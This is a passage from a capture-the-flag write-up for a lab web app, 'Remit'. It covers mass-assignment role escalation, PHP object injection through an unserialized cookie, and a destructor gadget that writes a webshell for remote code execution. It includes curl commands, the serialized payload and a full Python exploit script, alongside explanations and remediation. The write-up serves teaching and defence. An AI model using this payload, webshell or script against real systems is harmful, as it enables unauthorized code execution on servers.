> #### Concept deep dive: mass assignment, and why "allowlists" aren't automatically safe
>
> **Mass assignment** is what happens when a piece of code takes a whole bundle of user-supplied key/value pairs (a POST body, a JSON payload, a form) and applies them *in bulk* to a database record or object, rather than handling each field individually with its own explicit logic. It's extremely convenient to write — instead of `if (isset($_POST['full_name'])) { $user->full_name = $_POST['full_name']; }` repeated for every field, you loop over everything the client sent and apply whatever matches a list of "allowed" column names.
>
> The bug here isn't that an allowlist was used — allowlists (as opposed to *blocklists*, which try to enumerate what's forbidden) are generally the *correct* pattern, because they fail safe: anything not explicitly named is ignored by default. The bug is **what got put on the allowlist**. The comment in the source explains exactly how this happened in the real world, and it's a extremely common story: a legitimate feature (letting staff onboarding briefly write `role` through this same form) got built quickly, then the temporary carve-out was never removed once the "real" onboarding flow existed elsewhere. The allowlist was correct *in spirit* — it just accumulated a field that should have been temporary and staff-only, but had no way to distinguish "this request came from an admin onboarding tool" versus "this request came from a self-service supplier profile form."
>
> The deeper lesson: **an allowlist is only as trustworthy as the process that decides what goes on it, and for how long.** A single shared `$ALLOWED` array, reused by every caller regardless of who they are or what they're allowed to do, collapses two very different trust levels (supplier-editing-their-own-name vs. staff-assigning-roles) into one code path. The fix in the remediation section — separate request DTOs for supplier updates vs. staff onboarding — exists precisely so that each caller only ever sees the fields *it* is entitled to set, rather than one list shared across every use case that ever touches this table.

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ curl -v -b "PHPSESSID=<supplier_session>" -d "full_name=kuro&company=Kuroz&role=remit_reviewer" http://remit.local/account
```

Response: `Profile updated.`

***

### 6. Crossing into the Finance Console

`remit.local` and `review.remit.local` maintain **separate session stores** even though they share a user database — replaying the supplier `PHPSESSID` against `review.remit.local` (even with a spoofed `Host` header) returned a `302` redirect to `/login`. A fresh login was required, this time using `email`/`password` fields (not `username`, as initially assumed):

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ curl -v -H "Host: review.remit.local" -d "email=<supplier_email>&password=<supplier_password>" http://remit.local/login
```

Response: `302 Found`, `Location: /queue`, and a **new** `PHPSESSID` distinct from the supplier one.

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ curl -v -H "Host: review.remit.local" -b "PHPSESSID=<new_reviewer_session>" http://remit.local/queue
```

Result: `200 OK`, full invoice queue HTML, sidebar showing `Reviewer` role — console access achieved.

The important thing this step reveals is that **one shared database drives two independently-sessioned applications**:



Sessions are host-scoped; the database role is what's shared. Changing the role on one host only pays off once you authenticate fresh on the other.

***

### 7. The `remit_view` Cookie → PHP Object Injection

Interacting with the queue's filter/sort options set a cookie:

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ curl -v -H "Host: review.remit.local" -b "PHPSESSID=<reviewer_session>" "http://remit.local/queue?status=received&sort=oldest"
```

Response header:

```
Set-Cookie: remit_view=YToyOntzOjY6InN0YXR1cyI7czo4OiJyZWNlaXZlZCI7czo0OiJzb3J0IjtzOjY6Im9sZGVzdCI7fQ%3D%3D; path=/
```

Decoded:

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ echo "YToyOntzOjY6InN0YXR1cyI7czo4OiJyZWNlaXZlZCI7czo0OiJzb3J0IjtzOjY6Im9sZGVzdCI7fQ" | base64 -d
# a:2:{s:6:"status";s:8:"received";s:4:"sort";s:6:"oldest";}
```

This is raw PHP native `serialize()` output — and critically, the server calls `unserialize()` on it **without restricting allowed classes**.

> #### Concept deep dive: reading PHP's `serialize()` format byte by byte
>
> Before this becomes exploitable, it's worth actually understanding the wire format, because the exploit payload later is just this same format written by hand instead of by PHP. Take the captured cookie:
>
> ```
> a:2:{s:6:"status";s:8:"received";s:4:"sort";s:6:"oldest";}
> ```
>
> Read it left to right as a tiny grammar:
>
> * `a:2:{...}` — an **a**rray with **2** key/value pairs, contents between the braces
> * `s:6:"status"` — a **s**tring that is **6** bytes long, containing `status`
> * `s:8:"received"` — a string, 8 bytes, `received`
> * `s:4:"sort"` — a string, 4 bytes, `sort`
> * `s:6:"oldest"` — a string, 6 bytes, `oldest`
>
> So the array has keys `status` → `received` and `sort` → `oldest`, exactly matching what the URL parameters were. Every value in PHP's serialization format is **explicitly length-prefixed** — this is different from, say, JSON, which relies on quote characters and escaping to know where a string ends. PHP's format instead says up front "the next N bytes are the string," which is why the byte count has to be exact — get it wrong and the parser either truncates your data or reads garbage from whatever comes after.
>
> Objects use a very similar structure, just with an extra piece of information — the **class name** to instantiate:
>
> ```
> O:20:"Remit\Report\Archive":2:{s:4:"path";s:9:"...";s:4:"body";s:5:"...";}
> ```
>
> * `O:20:"Remit\Report\Archive"` — an **O**bject; the class name is 20 bytes long (note: `\` counts as one byte, so `Remit\Report\Archive` really is 20 characters/bytes)
> * `:2:{...}` — it has 2 properties
> * each property is a `string-key` / `value` pair, exactly like the array case
>
> This is the entire trick, in full: `unserialize()` reads this format and, when it hits an `O:` marker, doesn't just build a generic associative structure — it **actually instantiates a real object of the named class**, sets its public properties directly from the serialized data, and (if the class is currently defined/autoloaded anywhere in the running PHP process) that object becomes a fully real, functioning instance for all purposes — including running any magic methods PHP automatically calls on it.

> #### Concept deep dive: magic methods, and why `unserialize()` on untrusted input is one of PHP's most dangerous footguns
>
> PHP has a set of special method names, called **magic methods**, that the engine calls automatically at specific lifecycle moments rather than requiring explicit code to call them. A few relevant ones:
>
> * `__construct()` — runs when an object is created via `new`. (Notably, **`unserialize()` does&#x20;*****not*****&#x20;call `__construct()`** — it builds the object's property state directly, bypassing whatever validation logic the constructor might normally perform. This is itself a huge part of why deserialization is dangerous: any safety checks the class author put in the constructor are silently skipped.)
> * `__wakeup()` — a magic method specifically meant to run custom logic right after `unserialize()` reconstructs an object, since the constructor is skipped. Many real-world POI (PHP Object Injection) gadgets are found here instead of in destructors.
> * `__destruct()` — runs automatically when an object is about to be destroyed — either explicitly, or (critically) simply because the script has finished executing and PHP is cleaning up everything left in memory at the end of the request.
>
> The `Archive` class in this app defines `__destruct()` to unconditionally write `$this->body` to `$this->path` via `file_put_contents()`. Under normal, intended usage, some legitimate code path presumably creates an `Archive` object, sets sane values, and lets it go out of scope to trigger a "save the report" side effect. **The vulnerability is that `unserialize()` gives an attacker exactly the same power to create that object and set those same properties — with zero validation — as long as the class happens to be loaded (autoloaded, or `require`'d somewhere) in the PHP process handling the request.**
>
> Once that object exists with attacker-chosen `path` and `body`, you don't need to do anything else to trigger the write — you don't call a function, you don't submit another form. **The mere act of the PHP script finishing execution (which happens on every single request, always) is what fires the destructor.** This is what makes destructor-based gadgets so quietly dangerous compared to, say, a gadget that requires calling a specific named method: there's no additional step to trigger, which is exactly why the writeup describes the file write as happening "at request teardown" with no further attacker interaction.
>
> This entire vulnerability class is called **PHP Object Injection (POI)**, and it's why the PHP manual itself warns, in bold, never to call `unserialize()` on user-supplied input. The class doesn't even need to be specifically "malicious" by design — *any* class already loaded in the application that has an exploitable side effect in `__wakeup()`, `__destruct()`, `__toString()`, or similar, becomes a usable gadget the moment deserialization of untrusted data is allowed. In large real-world applications with many dependencies, security researchers build entire **"gadget chains"** — sequences of otherwise-unrelated classes whose magic methods, when triggered in sequence via nested objects, escalate a simple property-write into arbitrary code execution, file deletion, SQL execution, or more. This challenge's version is about as direct as it gets: a single class, one property write, no chaining required — but the underlying mechanism (attacker-controlled class instantiation via deserialization, combined with an automatically-triggered magic method) is identical to how POI is exploited in production frameworks.

Combined with the earlier source disclosure of a shared class:

```php
namespace Remit\Report;

class Archive
{
    public $path;
    public $body;

    public function __destruct()
    {
        if (!empty($this->path) && $this->body !== null) {
            @file_put_contents($this->path, $this->body);
        }
    }
}
```

...this becomes a textbook **PHP Object Injection (POI)** gadget: an attacker-controlled object of this class, once instantiated by `unserialize()`, writes `$body` to `$path` when destroyed at request teardown — no further interaction required.

Think of this as a pipeline with one dangerous junction — the moment `unserialize()` is allowed to build *any* class, not just arrays:



The one-line fix that would have stopped this entirely: `unserialize($raw, ['allowed_classes' => false])`.

***

### 8. Building the Gadget and Achieving RCE

Serialized object structure targeted:

```
O:20:"Remit\Report\Archive":2:{
  s:4:"path";s:<LEN>:"/proc/self/cwd/<shell>.php";
  s:4:"body";s:<LEN>:"<?php system($_GET['c']); ?>";
}
```

Built, base64-encoded, and sent as the `remit_view` cookie:

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ curl -v -H "Host: review.remit.local" -b "PHPSESSID=<reviewer_session>; remit_view=<url_encoded_base64_payload>" http://remit.local/queue
```

The destructor fired at request teardown, writing the shell into the review application's webroot (`/proc/self/cwd/` resolved correctly to the webroot in this environment).

Triggering it:

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ curl -H "Host: review.remit.local" 'http://remit.local/<shell>.php?c=id'
# uid=1201(avery) gid=1201(avery) groups=1201(avery)
```

Locating and reading the flag:

```bash
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ curl -H "Host: review.remit.local" 'http://remit.local/<shell>.php?c=find+/+-maxdepth+4+-iname+"*flag*"+2>/dev/null'
# /home/avery/flag.txt

┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ curl -H "Host: review.remit.local" 'http://remit.local/<shell>.php?c=cat+/home/avery/flag.txt'
```

```
WEBVERSE{00xml_bl1nd_************************_0bj_1nj3ct}
```

> #### Concept deep dive: why an arbitrary file write becomes arbitrary code execution
>
> A file-write primitive and code execution are not automatically the same thing — writing *any* file to *any* path only becomes RCE if there's some way to get the **web server itself to interpret the written file's contents as code and run them.** A few things had to line up for that to be true here:
>
> 1. **The written path lands inside a directory the web server serves and executes PHP from.** `/proc/self/cwd/` is a Linux-specific trick — every process has a virtual symlink at this path pointing to whatever directory it was launched from (its "current working directory"). For a typical PHP-FPM/Apache/nginx setup, the web server process's working directory very often *is* the document root — meaning a file dropped there via `/proc/self/cwd/whatever.php` is immediately reachable at `http://host/whatever.php`, with zero path-guessing required, regardless of what the *actual* absolute filesystem path of the webroot happens to be. This is an elegant trick specifically because it means the attacker doesn't need to already know (or leak) the real deployment path.
> 2. **The server is configured to execute `.php` files it finds in that directory**, rather than, say, serving them as plain text or refusing to touch files it didn't deploy itself. This is the default, expected behavior of essentially every PHP web server configuration — which is exactly why "no attacker-writable directory should ever also be a PHP-executable directory" is a standard hardening principle (see the remediation section's "non-executable report directory" recommendation).
> 3. **The content written is valid PHP that does something useful once executed** — here, `<?php system($_GET['c']); ?>`, a minimal **webshell**. `system()` is a built-in PHP function that hands a string straight to the operating system's shell for execution and returns the command's output. Wrapping it around a GET parameter turns any subsequent request to this file into "run whatever command I put in `?c=`" — which is exactly why the automation script's final stage is just repeatedly hitting this one URL with different `c` values (`id`, `find ...`, `cat ...`) rather than needing to re-exploit anything.
>
> Put together: **arbitrary file write + web-accessible + server-executable + attacker-controlled content = remote code execution.** This chain of conditions is worth internalizing generally, because it's the same reasoning used to evaluate *any* file-write bug (path traversal in an upload feature, a misconfigured backup/restore endpoint, a template-writing feature, etc.) for real-world severity — a file write to a path that's never served or never executed is a much lower-severity finding than one that lands in a live, execution-enabled webroot.

***

### Full Chain, Step by Step

The Phase diagram at the top of this writeup shows the shape of the chain; here's the same thing as a flat checklist for quick reference:

1. Register a supplier account
2. Discover `review.remit.local` via vhost fuzzing
3. Upload a benign xlsx to confirm the upload endpoint and format
4. Confirm the raw-byte XML blacklist rejects a plain `<!DOCTYPE>`
5. Bypass it by re-encoding the same payload as UTF-16
6. Confirm blind XXE via an out-of-band canary callback
7. Exfiltrate `index.php` via `php://filter` + nested parameter entities
8. Exfiltrate `account.php` — find the `role` mass-assignment bug
9. `POST role=remit_reviewer` to your own account
10. Log in fresh on `review.remit.local` (separate session store)
11. Notice `remit_view` is raw, unrestricted `serialize()`/`unserialize()` output
12. Exfiltrate `Archive.php` — confirm the destructor file-write gadget
13. Craft a malicious `Remit\Report\Archive` object
14. Send it as the `remit_view` cookie
15. Destructor fires at request teardown, writes a PHP webshell to the webroot
16. RCE as `avery`
17. Flag captured

***

### Root Causes

1. **Parser safety replaced with a blacklist** — a raw-byte regex was used instead of disabling dangerous parser features (`LIBXML_NOENT`, `LIBXML_DTDLOAD`). Encoding changes the bytes without changing the XML's semantics.
2. **Authorization trusted the form, not the role** — the UI hid the `role` field, but the server-side allowlist still accepted it from any POST body.
3. **Client-controlled PHP serialization crossed a trust boundary** — a cookie was `unserialize()`'d with no class restriction, turning any reachable magic-method gadget into a code-execution primitive.
4. **A destructor performed an unrestricted file write** — `Archive::__destruct()` wrote attacker-controlled content to an attacker-controlled path with no validation.
5. **Shared identities and code across trust zones** — the supplier and reviewer apps shared a user table and a report library, so a supplier-side disclosure exposed both the exact reviewer role string and a directly reusable gadget class in the finance app.

***

### Remediation Summary

* Disable `LIBXML_NOENT`/`LIBXML_DTDLOAD` for untrusted XML; use `LIBXML_NONET` and reject DTDs via parser configuration, not string matching.
* Remove `role` from any supplier-controlled update allowlist; require a dedicated admin workflow for role changes.
* Never call `unserialize()` on untrusted input; use JSON with primitive-only schemas, or `unserialize($raw, ['allowed_classes' => false])` as a stopgap.
* Avoid filesystem side effects in destructors; use explicit, validated `save()` operations with server-generated filenames beneath a non-executable directory.
* Reduce blast radius by separating identities/session stores and libraries across trust zones, and running review services with read-only filesystems where possible.

***

### Automation Script

The final gadget-trigger stage, automated end-to-end (build the `Remit\Report\Archive` payload, send it as `remit_view`, and run commands through the resulting shell):

```python
#!/usr/bin/env python3
"""
Remit — final stage only: build the Remit\\Report\\Archive gadget cookie,
send it to trigger the file write, then run commands through the shell.

Usage:
    python3 gadget.py                      # writes shell + runs `id`
    python3 gadget.py --cmd "id"           # run a specific command
    python3 gadget.py --cmd "cat /home/avery/flag.txt"
"""

import argparse
import base64
import requests

# ---------------------------------------------------------------------------
# CONFIG — edit for your instance
# ---------------------------------------------------------------------------
TARGET_IP = "10.100.0.30"
REVIEW_HOST = "review.remit.local"
REVIEWER_SESSION = "47619fcb57cc4408d55fa56b807c055c"
SHELL_FILENAME = "kuroshiroshell.php"
SHELL_BODY = "<?php system($_GET['c']); ?>"

BASE_URL = f"http://{TARGET_IP}"


def build_gadget_cookie(remote_path: str, body: str) -> str:
    path_b = remote_path.encode()
    body_b = body.encode()
    payload = (
        b'O:20:"Remit\\Report\\Archive":2:{'
        + f's:4:"path";s:{len(path_b)}:'.encode() + b'"' + path_b + b'";'
        + f's:4:"body";s:{len(body_b)}:'.encode() + b'"' + body_b + b'";'
        + b'}'
    )
    return base64.b64encode(payload).decode()


def trigger_gadget(session: requests.Session, reviewer_cookie: str,
                    shell_filename: str, shell_body: str):
    remote_path = f"/proc/self/cwd/{shell_filename}"
    cookie_val = build_gadget_cookie(remote_path, shell_body)

    r = session.get(
        f"{BASE_URL}/queue",
        headers={"Host": REVIEW_HOST},
        cookies={
            "PHPSESSID": reviewer_cookie,
            "remit_view": cookie_val,
        },
    )
    print(f"[+] Gadget request sent -> status {r.status_code}")
    return r


def run_shell(session: requests.Session, shell_filename: str, cmd: str) -> str:
    r = session.get(
        f"{BASE_URL}/{shell_filename}",
        headers={"Host": REVIEW_HOST},
        params={"c": cmd},
    )
    return r.text


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--reviewer-cookie", default=REVIEWER_SESSION)
    ap.add_argument("--shell-name", default=SHELL_FILENAME)
    ap.add_argument("--cmd", default="id", help="Command to run after the shell is written")
    ap.add_argument("--skip-write", action="store_true",
                     help="Skip the gadget/file-write step and just call the shell")
    args = ap.parse_args()

    s = requests.Session()

    if not args.skip_write:
        print("[*] Building and sending Archive gadget cookie...")
        trigger_gadget(s, args.reviewer_cookie, args.shell_name, SHELL_BODY)
    else:
        print("[*] Skipping write step, calling existing shell directly...")

    print(f"[*] Running: {args.cmd}")
    out = run_shell(s, args.shell_name, args.cmd)
    print("[+] Output:")
    print(out.strip())


if __name__ == "__main__":
    main()
```

**Result:**

```
┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ python3 gadget.py
[*] Building and sending Archive gadget cookie...
[+] Gadget request sent -> status 200
[*] Running: id
[+] Output:
uid=1201(avery) gid=1201(avery) groups=1201(avery)

┌──(kuroshiro㉿a1sberg)-[~/Webverse/Remit]
└─$ python3 gadget.py --skip-write --cmd 'cat /home/avery/flag.txt'
[+] Output:
WEBVERSE{00xml_bl1nd_*************************nj3ct}
```
